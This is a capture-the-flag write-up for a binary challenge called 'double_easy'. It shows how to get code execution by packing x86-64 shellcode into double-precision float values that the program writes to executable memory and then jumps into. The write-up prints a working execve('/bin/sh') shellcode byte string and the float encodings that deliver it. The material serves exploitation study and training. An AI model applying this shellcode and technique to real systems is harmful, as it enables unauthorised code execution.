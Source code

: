 # double_easy
This is simple but yet in my opinion fun enough task.

At the begging called nmap. It creates rwxp mapping. User input getting placed at 0x7ffff7ff6000. 

![](/images/random_tasks/double_easy/01.png)

![](/images/random_tasks/double_easy/02.png)

At the end most registers getting xord and we jmp to address from rax.

![](/images/random_tasks/double_easy/03.png)

The goal here is to combine double values into a shellcode.

When jmp rax happens rax = 0x7ffff7ff6800

Double value with maximum exponent is placed at that address. So we need to jmp from there to the begging of our shellcode ie. to 0x7ffff7ff6000.

![](/images/random_tasks/double_easy/07.png)

I used http://www.binaryconvert.com/convert_double.html to convert hex values to doubles.

482d00080000ffe0 -> e0ff000008002d48 = -1.70246984590177777930935029465E159

So I tried it but in gdb I noticed that value at 0x7ffff7ff6800 was changed to e0cf000008002d48. 

0xe0f - 0x3 = 0xe0c => we should place 0xe0f + 0x3 = 0xe12 => e12f000008002d48

e12f000008002d48 = -1.36197587672142222344748023572E160

This worked.

![](/images/random_tasks/double_easy/04.png)

I used following shellcode:

![](/images/random_tasks/double_easy/05.png)

Setting rsp to 0x7ffff7ff6600 at start there.

sc = "\x48\x05\x00\x06\x00\x00\x48\x89\xC4\x31\xC0\x48\xBB\xD1\x9D\x96\x91\xD0\x8C\x97\xFF\x48\xF7\xDB\x53\x54\x5F\x99\x52\x57\x54\x5E\xB0\x3B\x0F\x05"

9090909048050006  -> 0600054890909090 = 8.82579544590269863191205692881E-280

00004889C431C048  -> 48C031C489480000 = 2.82146330475893377060216454638E42

BBD19D9691D08C97  -> 978CD091969DD1BB = -3.08380742074420402109506446037E-195

FF48F7DB53545F99  -> 995F5453DBF748FF = -1.80009256564271863951964737918E-186

5257545EB03B0F05  -> 050F3BB05E545752 = 2.62548796026479771567446783154E-284

![](/images/random_tasks/double_easy/06.png)